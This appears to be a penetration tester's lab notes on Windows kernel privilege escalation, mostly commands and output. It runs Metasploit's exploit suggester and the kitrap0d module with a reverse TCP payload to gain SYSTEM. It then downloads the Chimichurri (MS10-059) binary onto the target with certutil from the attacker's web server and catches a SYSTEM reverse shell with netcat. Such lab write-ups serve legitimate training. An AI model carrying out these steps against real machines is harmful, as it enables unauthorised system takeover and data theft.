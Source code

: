 
List of [exploits](https://github.com/SecWiki/windows-kernel-exploits).

There are multiple ways we can exploit kernel vulnerabilities after identifying them via an [[Automated Tools]] such as **wesng**, or the Metasploit **Exploit suggester**. 

## Metasploit

Once we have established a connection to the machine via a meterpreter session we can run `local_exploit_suggester` module to check for existing vulnerabilities.

```bash
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.19:6666 
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 26 opened (10.10.14.19:6666 -> 10.10.10.5:49172) at 2025-07-08 12:13:33 +1000

meterpreter > run post/multi/recon/local_exploit_suggester 
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 203 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 42 / 42
[*] 10.10.10.5 - Valid modules for session 26:
=============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!                                                                                                                                                                                                
 4   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 10  exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 13  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 16  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
.
.
.
```

Let's pick the `kitrap0d` vulnerability and try to execute it to gain elevated privileges.

```bash
meterpreter > background 
[*] Backgrounding session 27...

msf6 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
[*] Using configured payload windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 27
SESSION => 27

msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST tun0
LHOST => 10.10.14.19

msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 5555
LPOST => 5555

msf6 exploit(windows/local/ms10_015_kitrap0d) > options 

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  27               yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.19      yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)

msf6 exploit(windows/local/ms10_015_kitrap0d) > run
[*] Started reverse TCP handler on 10.10.14.19:5555 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 2440 launched.
[*] Reflectively injecting the DLL into 2440...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 28 opened (10.10.14.19:5555 -> 10.10.10.5:49174) at 2025-07-08 12:22:53 +1000

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

We have successfully gained administrator privileges in the system. We can now enter into a shell and exfiltrate data from the system.

```PowerShell
meterpreter > shell
whoProcess 3568 created.
Channel 1 created.
amiMicrosoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```

## Manual Exploitation

If we are manually exploiting a vulnerability, first we can use a tool like `wes` to find exisiting vulnerabilities. In order to this, we can use the `systeminfo` command to obtain the system details and provide them to `wes` as follow.

```bash
$ python wes.py --update                  
Windows Exploit Suggester 1.05 ( https://github.com/bitsadmin/wesng/ )
[+] Updating definitions
[+] Obtained definitions created at 20250704

$ python wes.py sysinfo.txt -c -s critical
Windows Exploit Suggester 1.05 ( https://github.com/bitsadmin/wesng/ )
[+] Parsing systeminfo output
[+] Operating System
    - Name: Windows 7 for 32-bit Systems
    - Generation: 7
    - Build: 7600
    - Version: None
    - Architecture: 32-bit
    - Installed hotfixes: None
[+] Loading definitions
    - Creation date of definitions: 20250704
[+] Determining missing patches
[+] Applying display filters
[!] Found vulnerabilities!

Date: 20130409
CVE: CVE-2013-1296
KB: KB2813347
Title: Vulnerability in Remote Desktop Client Could Allow Remote Code Execution
Affected product: Windows 7 for 32-bit Systems
Affected component: Remote Desktop Connection 7.0 Client
Severity: Critical
Impact: Remote Code Execution
Exploit: n/a

Date: 20130409
CVE: CVE-2013-1338
KB: KB2817183
Title: Cumulative Security Update for Internet Explorer
Affected product: Windows 7 for 32-bit Systems
Affected component: Windows Internet Explorer 9
Severity: Critical
Impact: Remote Code Execution
Exploit: n/a
.
.
```

Once we have a list of possible exploits, we can search the [windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) GitHub to find ways to execute the exploits. For this machine we will go with the [MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059) exploit. This is commonly known as the **Chimichurri** exploit.

We need to run an executable on the compromised machine and this will spawn and connect a shell with administrator privileges to our machine. 

We need to first transfer the file from our machine to the compromised machine.

```bash
$ python3 -m http.server 80     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.5 - - [08/Jul/2025 13:06:15] "GET /Chimichurri.exe HTTP/1.1" 200 -
10.10.10.5 - - [08/Jul/2025 13:06:28] "GET /Chimichurri.exe HTTP/1.1" 200 -
```

```PowerShell
c:\Windows>cd Temp
cd Temp

c:\Windows\Temp>certutil -urlcache -f http://10.10.14.19/Chimichurri.exe ms.exe
certutil -urlcache -f http://10.10.14.19/Chimichurri.exe ms.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Now we simply need to open a lister on port `6667` on our and and wait for the connection.

```PowerShell
c:\Windows\Temp>.\ms.exe
.\ms.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
c:\Windows\Temp>.\ms.exe 10.10.14.19 6667
.\ms.exe 10.10.14.19 6667
```

```bash
$ nc -lnvp 6667
listening on [any] 6667 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.5] 49181
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\Windows\Temp>whoami
whoami
nt authority\system
```

